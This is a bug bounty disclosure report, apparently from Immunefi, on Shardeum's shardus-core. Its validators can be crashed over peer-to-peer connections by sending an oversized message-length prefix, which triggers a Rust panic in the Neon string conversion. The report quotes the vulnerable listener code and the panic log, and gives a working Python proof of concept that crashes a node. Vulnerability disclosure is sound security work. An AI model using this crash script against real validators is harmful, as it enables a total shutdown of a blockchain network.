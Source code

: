 
# Validators can be crashed via p2p

Submitted on Sat Jul 20 2024 05:29:33 GMT-0400 (Atlantic Standard Time) by @usmannk for [Boost | Shardeum: Core](https://immunefi.com/bounty/shardeum-core-boost/)

Report ID: #33428

Report type: Blockchain/DLT

Report severity: Critical

Target: https://github.com/shardeum/shardus-core/tree/dev

Impacts:
- Network not being able to confirm new transactions (total network shutdown)

## Description
## Brief/Intro
An attacker can cause a rust panic via p2p, crashing arbitrary nodes on the network. Repeating this simple process takes down the network.

This is a fatal error and pm2 does not recover from it.

## Vulnerability Details
The shardus net listener does the following on new connections:
```rust
async fn receive(socket_stream: TcpStream, remote_addr: SocketAddr, received_msg_tx: UnboundedSender<(String, SocketAddr, Option<RequestMetadata>)>) -> ListenerResult<()> {
  let mut socket_stream: TcpStream = socket_stream;
  while let Ok(msg_len) = socket_stream.read_u32().await {
      let mut buffer: Vec<u8> = vec![0; msg_len as usize];
```

If an attacker sends a byte that decodes to a value larger than `(2**29)-24`, this vec will be allocated to that size and passed to the JS runtime via Neon as a string and cause the following panic:

```
11|"shardus-instance-9009"  | thread '<unnamed>' panicked at /Users/usmannkhan/.cargo/registry/src/index.crates.io-6f17d22bba15001f/neon-0.10.1/src/types/mod.rs:509:36:
11|"shardus-instance-9009"  | called `Result::unwrap()` on an `Err` value: StringOverflow(536870889)
11|"shardus-instance-9009"  | note: run with `RUST_BACKTRACE=1` environment variable to display a backtrace
11|"shardus-instance-9009"  | [Error: A panic occurred while executing a `neon::event::Channel::send` callback] {
11|"shardus-instance-9009"  |   panic: [Error: called `Result::unwrap()` on an `Err` value: StringOverflow(536870889)]
```

## Impact Details
Total network shutdown.

## Reference

See https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/length#description for more info on max string length.
        
## Proof of concept
## Proof of Concept
The following python script will crash a node running at `127.0.0.1:10009`:
```python
import socket
def connect(port):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('127.0.0.1', port))
    return s
MAX_STR_LEN = 2**29 - 24
s = connect(10009)
val = bytes.fromhex(hex(MAX_STR_LEN + 1)[2:])
s.send(val)
s.close()
```